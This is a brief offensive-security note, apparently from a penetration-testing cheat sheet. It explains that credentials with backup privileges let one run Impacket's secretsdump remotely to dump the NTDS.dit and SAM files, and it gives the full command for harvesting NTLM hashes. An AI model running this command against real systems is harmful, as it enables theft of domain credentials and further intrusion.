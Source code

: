 If you have credentials that have the SeBackUp Permission from `whoami /priv` you can remotely use secretsdump to pull the NTDS.dit and SAM file. 

This will return some juicy NTLM hashes for your viewing pleasure.
 
 `python3.9 /opt/impacket/examples/secretsdump.py '<DOMAIN>/<USER>:<PASSWORD>@<IP>'`